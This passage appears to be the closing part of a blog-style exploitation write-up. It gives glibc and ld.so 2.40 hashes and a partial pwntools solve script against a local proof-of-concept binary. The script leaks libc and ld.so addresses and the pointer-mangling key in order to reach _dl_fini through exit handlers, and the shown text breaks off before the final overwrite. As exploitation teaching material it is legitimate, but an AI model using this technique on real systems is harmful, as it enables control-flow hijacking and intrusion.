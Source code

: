 ## Wrapping up

### Information

Incase you wanted to try this out, the only thing that really needs to match is the LibC and ld.so versions i'm using. The actual binary itself doesn't need to be identical since it's not involved in the exploit, so you can simply compile it yourself and use that.

The hashes of the libraries I used are:
* LibC version 2.40, sha1 `a03c98d0b534ed367baa0d4a4d4a94224b15a11a`
* ld.so version 2.40, sha1 `900bbb26d9de3755e363fa9f1024dae987361a8e`

### The Script

```python {script_name="solve.py"}
from pwn import *

context.log_level = "info"

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
ld = ELF("/lib64/ld-linux-x86-64.so.2")
with process(["./vuln_poc"]) as p:
	#interact with the binary
	def interact(action, data):
		if action == "EXIT":
			p.sendlineafter(b"do? ", b"1")
			p.interactive()
		elif action == "ALLOC":
			p.sendlineafter(b"do? ", b"2")
			p.sendline(data)
			return int(p.recvline()[2:], 16) #return heap addr

		#handle read/write on address
		p.sendlineafter(b"do? ", hex(data["addr"]).encode("ascii"))
		p.sendline(action.encode("ascii"))

		#read/write
		if action == "r":
			return int(p.recvline()[len("read: "):],16)
		else:
			p.sendline(data["to_write"])

	#get libc base address from popen leak
	libc.address = int(p.recvline()[len("popen: 0x"):], 16)-libc.sym["popen"]
	log.info(f"LibC Address: {hex(libc.address)}")

	#leak encrypted address from where it resides
	#"initial" isn't exported, so this is the manual offset i calculated from libc
	initial = libc.address + 0x1ddfc0
	enc_addr = interact("r", {"addr": initial+16+8})
	log.info(f"Encrypted address: {hex(enc_addr)}")

	#leak _rtld_global to get the ld.so base address
	rtld_global_addr = interact("r", {"addr": libc.sym["__nptl_rtld_global"]})

	#dereference rtld_global 
	rtld_global_addr = interact("r", {"addr": rtld_global_addr})
	ld.address = rtld_global_addr-0x362e0
	_dl_fini = ld.address+0x3e20
	log.info(f"_dl_fini: {hex(_dl_fini)}")

	#utility functions
```